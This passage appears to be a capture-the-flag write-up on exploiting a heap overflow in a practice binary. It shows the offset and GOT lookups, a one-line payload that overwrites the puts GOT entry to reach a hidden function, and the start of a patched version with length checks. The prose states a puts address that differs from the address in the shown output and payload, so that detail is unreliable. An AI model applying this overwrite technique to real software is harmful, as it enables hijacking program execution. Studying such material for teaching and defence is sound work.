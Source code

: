```
guyinatuxedo@tux:/Hackery/escape/heap_exp/h1$ python
Python 2.7.12 (default, Nov 19 2016, 06:48:10) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x804b028 - 0x804b018
16
>>> exit()
guyinatuxedo@tux:/Hackery/escape/heap_exp/h1$ objdump -R h1 | grep puts
0804a018 R_386_JUMP_SLOT   puts@GLIBC_2.0
guyinatuxedo@tux:/Hackery/escape/heap_exp/h1$ objdump -D h1 | grep endless
080484cb <endless>:
```

So we have the offset which is 16, the address of puts which is 0x0804a01c, and the address of endless which is 0x080484cb. Now to craft the exploit to overflow the address (remember we have to push the hex strings using little endian still).

```
guyinatuxedo@tux:/Hackery/escape/heap_exp/h1$ ./h1 `python -c 'print "0"*16 + "\x18\xa0\x04\x08" + " " + "\xcb\x84\x04\x08"'`
Do you know how much research I could fit in space? I'll give you a hint, more than 5. Level Cleared
```

Just like that we pwned the binary. Now to patch it.

```
guyinatuxedo@tux:/Hackery/escape/heap_exp/h1$ cat h1_secure.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

struct space	
{
	char* star; 
};

void endless()
{
	int i = 5;
	printf("Do you know how much research I could fit in space? I'll give you a hint, more than %d. Level Cleared\n", i);
}

int main(int argc, char **argv)
{
	if (argc != 3)
	{
		puts("You need two arguments in addition to the elf's name to research this.\n");
		exit(0);
	}
	if (argc = 3)
	{
		if (strlen(argv[1]) > 9)
		{
			printf("Inputs must be less than 10 characters.\n");
			exit(0);
		}
		
		if (strlen(argv[2]) > 9)
		{
			printf("Inputs must be less than 10 characters.\n");
			exit(0);
		}
		
```